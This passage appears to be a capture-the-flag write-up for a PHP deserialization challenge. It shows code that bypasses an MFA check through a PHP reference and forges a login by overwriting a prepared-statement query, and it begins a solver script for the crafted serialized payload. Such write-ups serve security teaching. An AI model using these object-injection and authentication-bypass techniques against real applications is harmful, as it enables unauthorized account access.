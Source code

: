 The MFA token check can be bypassed if we set `$mfa_token` as a reference to the `$_correctValue` attribute using the ampersand (&). Note that in PHP, a reference is simply another variable that points to the same data (not like pointers in C).

Thus, this will ensure that the two values are always **equal**.

The custom object can be generated as follows:

```php
class Login
{
	public $user;
	public $mfa_token;
	protected $_correctValue;
	
	function __construct()
	{
		$this->user = new User();
		$this->mfa_token = &$this->_correctValue;
	}
}

$login = new Login();
```

### SQL

Note that the `SQL` class has a `$query` attribute that is used in the prepared statement. By simply modifying the `$query`, we can perform an SQL injection. 

Of course, there is no actual data in the database, and the user only has read-only permissions to one table, but to bypass the authentication we simply need a valid result set with `email` and `password` columns. 

We can use something like

```sql
SELECT 'dead@beef' AS email, 'l33t' AS password 
```

which will return one row with `email` and `password` columns.

Remember the `bind_param()` check? We still need to make sure that there are two parameters in the prepared statement, so we will do something like this:

```sql
SELECT ? AS email, ? AS password
```

any other valid query that makes use of two parameters would work too.

### Exploit!

Using the previously discussed knowledge, it is now trivial to create a solver script that gives us the required base-64 encoded serialized data.

```php
class SQL
{
	protected $query="SELECT ? AS email, ? AS password";
}

class User
{
	public $email = 'dead@beef';
	public $password = 'l33t';
	protected $sql;
	
	function __construct()
	{
```